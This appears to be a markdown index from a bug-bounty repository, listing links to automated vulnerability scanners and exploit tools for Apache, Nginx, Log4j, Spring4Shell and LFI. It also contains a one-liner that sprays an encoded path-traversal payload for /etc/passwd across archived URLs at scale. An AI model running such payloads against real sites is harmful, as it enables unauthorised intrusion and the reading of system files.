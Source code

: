  This file contains the list of tools or scripts which can be directly run on the subdomains list to find the vulnerabilities

> Automatic Vulnerability Detection and Exploit
```
Automation
https://github.com/zan8in/afrog
https://github.com/adrianscheff/pegaxss
https://github.com/zhzyker/vulmap
https://github.com/Dheerajmadhukar/karma_v2
https://github.com/yogeshojha/rengine
https://github.com/Chudry/Xerror
https://github.com/R0X4R/Garud
https://github.com/chaitin/xray
https://github.com/cckuailong/pocsploit
https://github.com/knownsec/pocsuite3
https://www.spiderfoot.net/
https://github.com/d3ckx1/Fvuln
https://gobies.org/
https://sniffcon.com
https://github.com/tr0uble-mAker/POC-bomber
https://github.com/wrenchonline/glint
https://github.com/yogeshojha/rengine
```
> Find Favicon hash for alltarget from a file list
```
https://github.com/devanshbatham/FavFreak
```

> 1. Apache Vulnerability Scanner
```
https://github.com/imhunterand/ApachSAL
https://github.com/p0dalirius/ApacheTomcatScanner
```
> PoC for Nginx 0.6.18 - 1.20.0 Memory Overwrite Vulnerability CVE-2021-23017
```
https://github.com/glyptho/newassets/blob/main/automation/poc.py
```

> 2. Local File Include Check:
```
> https://github.com/hansmach1ne/lfimap
LFI at scale 🔥🔥🔥🔥
cat rootsDomains.txt | waybackurls | qsreplace ".%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./etc/passwd" | httpx -silent -nc -mr "root:x:" -t 250 
```
> RCE Finder
```
https://github.com/plenumlab/rce-finder
```

>Log4j Vulnerability Test
```
https://github.com/cyberqueen-meg/log4j-bypass
https://github.com/PushpenderIndia/Log4jScanner
https://github.com/thecyberneh/Log4j-RCE-Exploiter
https://github.com/palantir/log4j-sniffer
https://github.com/trickest/log4j
```

> Sprint4shell scanner
```
https://github.com/fullhunt/spring4shell-scan
```


> Image EXIF-Metadata find
```
https://github.com/aydinnyunus/exifLooter
```
> Regularly collection of domain list from bug bounty sites
```
https://github.com/arkadiyt/bounty-targets-data/blob/master/data/domains.txt
https://github.com/KingOfBugbounty/KingOfBugBountyTips/blob/master/DoD%20Domains.txt
```
> Crawl Entire Website for find all endpoint
```
https://github.com/dwisiswant0/galer#single-url
```
